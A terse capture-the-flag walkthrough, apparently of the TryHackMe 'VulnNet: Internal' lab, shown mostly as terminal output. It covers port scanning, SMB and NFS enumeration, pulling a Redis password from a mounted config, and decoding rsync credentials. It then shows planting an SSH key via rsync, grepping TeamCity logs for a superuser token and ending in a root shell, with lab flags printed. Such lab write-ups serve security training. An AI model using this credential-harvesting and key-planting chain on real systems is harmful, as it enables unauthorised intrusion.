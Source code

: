 ┌──(mikey㉿kali)-[~/rabbit]
└─$ nmap -sC -sV -p 1-1000 10.10.40.193
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-17 20:07 IST

PORT    STATE    SERVICE     VERSION
6/tcp   filtered unknown
22/tcp  open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      38138/udp   mountd
|   100005  1,2,3      38319/tcp   mountd
|   100005  1,2,3      38570/udp6  mountd
|   100005  1,2,3      40475/tcp6  mountd
|   100021  1,3,4      37650/udp   nlockmgr
|   100021  1,3,4      38649/tcp   nlockmgr
|   100021  1,3,4      45825/tcp6  nlockmgr
|   100021  1,3,4      60521/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
139/tcp open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open     rsync       (protocol version 31)

# sudo smbclient -L 10.10.21.154
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            
                        
smb: \temp\> ls
  .                                   D        0  Sat Feb  6 17:15:10 2021
  ..                                  D        0  Tue Feb  2 14:50:09 2021
  services.txt                        N       38  Sat Feb  6 17:15:09 2021


We get our first flag in services.txt 
┌──(mikey㉿kali)-[~/rabbit]
└─$ cat services.txt
 THM{0a09d51e488f5fa105d8d866a497440a}
        
┌──(mikey㉿kali)-[~/rabbit]
└─$ sudo showmount -e 10.10.21.154
Export list for 10.10.238.66:
/opt/conf *
    
┌──(mikey㉿kali)-[~/rabbit]
└─$ mount -t nfs 10.10.21.154:/opt  /tmp

            
┌──(mikey㉿kali)-[/tmp/opt/conf/redis]
└─$ cat redis.conf | grep -i password
requirepass "B65Hx562F@ggAZ@F"

┌──(mikey㉿kali)-[~/rabbit]
└─$ redis-cli -h 10.10.21.154 -a "B65Hx562F@ggAZ@F" 
10.10.21.154:6379> keys *
1) "internal flag"
2) "marketlist"
3) "tmp"
4) "int"
5) "authlist"
10.10.21.154:6379> get "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"



10.10.21.154:6379> get "authlist"
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.21.154:6379> lrange "authlist" 1 10
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="

┌──(mikey㉿kali)-[~/rabbit]
└─$echo QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg== | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password Hcg3HP67@TW@Bc72v
┌──(mikey㉿kali)-[~/rabbit]
└─$ rsync rsync://rsync-connect@10.10.65.34/files/sys-internal/user.txt /rsync/ 
Password: 

┌──(root㉿kali)-[/rsync]
└─# ls
user.txt
                                                                             
┌──(root㉿kali)-[/rsync]
└─# cat user.txt        
THM{da7c20696831f253e0afaca8b83c07ab}

┌──(mikey㉿kali)-[~/rabbit]
└─$ rsync authorized_keys rsync://rsync-connect@10.10.65.34/files/sys-internal/.ssh/ 
Password: 

┌──(root㉿kali)-[~mikey/internal]
└─# ssh -i rsa sys-internal@10.10.120.193 


sys-internal@vulnnet-internal:/TeamCity/conf$ ss -tulwn
Netid                    State                       Recv-Q                      Send-Q                                                 Local Address:Port                                            Peer Address:Port                     
                                      0.0.0.0:*                        
                                    0.0.0.0:*                        
                                              0.0.0.0:*                        
tcp                      LISTEN                      0                           1                                                 [::ffff:127.0.0.1]:8105                                                       *:*                        
tcp                      LISTEN                      0                           128                                                             [::]:41993                                                   [::]:*                        
tcp                      LISTEN                      0                           128                                                             [::]:55849                                                   [::]:*                        
tcp                      LISTEN                      0                           5                                                               [::]:873                                                     [::]:*                        
tcp                      LISTEN                      0                           128                                                            [::1]:6379                                                    [::]:*                        
tcp                      LISTEN                      0                           64                                                              [::]:41611                                                   [::]:*                        
tcp                      LISTEN                      0                           50                                                              [::]:139                                                     [::]:*                        
tcp                      LISTEN                      0                           100                                               [::ffff:127.0.0.1]:8111             

sys-internal@vulnnet-internal:/TeamCity/logs$ cat catalina.out | grep -i token
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 8446629153054945175 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 3782562599667957776 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 5812627377764625872 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)
[TeamCity] Super user authentication token: 1844220135994601530 (use empty username with the token as the password to access the server)

![](https://i.imgur.com/cNWT1V5.png)

bash-4.4$ ./bash -p
bash-4.4# whoami
root

bash-4.4# cat root.txt
THM{e8996faea46df09dba5676dd271c60bd}
          
                                            
